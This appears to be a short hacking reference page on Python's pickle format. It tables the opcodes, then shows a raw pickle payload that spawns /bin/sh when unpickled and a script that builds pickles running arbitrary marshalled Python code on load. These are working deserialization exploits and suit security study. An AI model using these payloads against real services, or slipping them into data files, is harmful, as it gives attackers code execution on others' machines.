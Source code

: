 ```yaml
---
layout: default
title:  "Pickle"
category: Hacking
---
```


# Pickle
Python includes a serialization library called `pickle` to write /
read Python objects. It uses a stack based language for the interpreter.

| Instruction | Description |
| ----------- | ----------- |
| `c` | Read to the newline as the module name; read the next line as the module object; push `module.object` onto the stack |
| `(` | Push a MARK object onto the stack |
| `S` | Push trailing string in quotes onto the stack |
| `V` | Push trailing unicode string in quotes onto the stack |
| `l` | Pop everything off the stack until MARK into a list; push the list back onto the stack |
| `t` | Pop everything off the stack until MARK into a tuple; push the tuple back onto the stack |
| `R` | Pop two objects off the stack (argument and callable); apply the function to the arguments; push the result back onto the stack |
| `p` | Read to the newline as the `index`; peek at the top stack object and store it in memo `index` |
| `g` | Read to the newline as the `index`; grab an object from memo `index` and push onto the stack |
| `0` | Pop and discard the topmost stack item |
| `.` | End of the pickle |

## Arbitrary Code Execution
The following will spawn `/bin/sh` when unpickled and is equivalent to:

```python
import os
os.system('/bin/sh')
```

```
cos
system
(S'/bin/sh'
tR.
```

Below is a Python program that allows you to write a payload in Python
that will get executed when unpickled. [Source](https://checkoway.net/musings/pickle/)

```python
import marshal
import base64

# payload() will be executed when unpickled
def payload():
    pass

print("""ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'%s'
tRtRc__builtin__
globals
(tRS''
tR(tR.""" % base64.b64encode(marshal.dumps(payload.__code__)).decode())
```

